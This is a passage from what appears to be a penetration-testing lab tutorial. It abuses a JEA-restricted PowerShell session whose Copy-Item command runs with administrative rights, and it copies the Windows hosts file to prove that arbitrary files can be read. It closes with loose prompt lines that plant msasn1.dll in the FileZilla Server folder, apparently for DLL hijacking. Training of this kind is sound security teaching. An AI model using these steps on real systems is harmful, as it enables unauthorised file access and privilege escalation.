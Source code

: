 > Listing 34 - Checking available commands in a regular PowerShell prompt

Our commands in the JEA session are very limited. The _functions_ we find on the left side in Listing 33 are the current commands available by default when JEA is set up with _RestrictedRemoteServer_. However, the _Copy-Item_ is not default and is likely set up by the system administrator.

Keep in mind that the commands available to us will be executed with administrative privileges on the machine. If there is no validation on what exactly _mary_ can copy, we may be able to copy files from the entire file system.

According to the PowerShell history we reviewed earlier, _mary_ copied a file from the **C:\shares\engineering\_old\scripts\\** share. While the content of this share may be of interest, let's check if we are able to copy items from anywhere else.

Since the home folder for domain users is also stored in _FILES02_, which includes _mary_'s, we can easily verify whether we can copy other files on the machine.

Let's first try to copy the **hosts** file, which is default on all Windows machines.

```
[files02]: PS> Copy-Item -Path 'C:\Windows\System32\drivers\etc\hosts' -Destination 'C:\shares\home\mary'
```

> Listing 35 - Copying hosts file to mary home folder

With no error messages displayed, let's check the home folder for the file and confirm the content of the file is intact. To do this, we'll go back to the PowerShell prompt on _CLIENT02_ since the one we have on _FILES02_ will not allow us to list the directory.

```
PS C:\> type \\files02\home$\mary\hosts
# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to host names. Each
# entry should be kept on an individual line. The IP address should
# be placed in the first column followed by the corresponding host name.
# The IP address and the host name should be separated by at least one
# space.
#
# Additionally, comments (such as these) may be inserted on individual
# lines or following the machine name denoted by a '#' symbol.
#
# For example:
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host

# localhost name resolution is handled within DNS itself.
#       127.0.0.1       localhost
#       ::1             localhost
```

> Listing 36 - Verifying that the hosts file is intact


[files02]: PS>whoami
[files02]: PS>[System.Security.Principal.WindowsIdentity]::GetCurrent().Name
[files02]: PS>Get-Command
[files02]: PS>[files02]: copy-item C:\shares\home\mary\msasn1.dll -destination "C:\Program Files\FileZilla Server\msasn1.dll"